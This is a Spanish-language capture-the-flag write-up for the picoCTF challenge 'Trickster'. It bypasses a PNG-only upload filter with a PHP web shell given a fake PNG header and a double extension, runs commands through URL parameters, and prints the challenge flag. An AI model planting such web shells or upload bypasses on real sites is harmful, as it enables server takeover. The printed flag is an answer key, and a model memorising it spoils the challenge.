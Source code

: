 ## Reto: Trickster
### Descripción
Encontré una aplicación web que puede ayudar a procesar imágenes: ¡solo imágenes PNG!Pruébalo [aquí](http://atlas.picoctf.net:50854/)¡!
### Solución
Vemos que solo podemos subir archivos con extension.png, segun la pagina, pero que pasa si nosotros creamos un archivo `php`para poder manipular comandos?

Guardaremos el siguiente script como `.php` y con el comando 
```shell
MV image.php image.png.php
```

Para poder confundir a la pagina:

```php
PNG
<?
if(isset($_GET['cmd'])){
	system($_GET['cmd']);
}
?>
```

Usando `png` al inicio, podremos lograr esto. 

Una vez ahi, sobre la barra de navegacion podemos ejecutar comandos:

```http
http://atlas.picoctf.net:50854/uploads/img.png.php?cmd=ls%20..
```

Con este comando nosotros podemos ver lo que hay en la carpeta anterior a la que nos encontramos, arrojandonos el siguiente resultado:
```
PNG HFQWKODGMIYTO.txt index.php instructions.txt robots.txt uploads
```

La bandera esta en el archivo `HFQWKODGMIYTO.txt`, asi que con el siguiente comando lo abrimos:
```http
http://atlas.picoctf.net:50854/uploads/img.png.php?cmd=cat%20../HFQWKODGMIYTO.txt
```

Y nos regresa la bandera:
```flag
picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_9ae8fb17}
```



### Notas adicionales
### Referencias

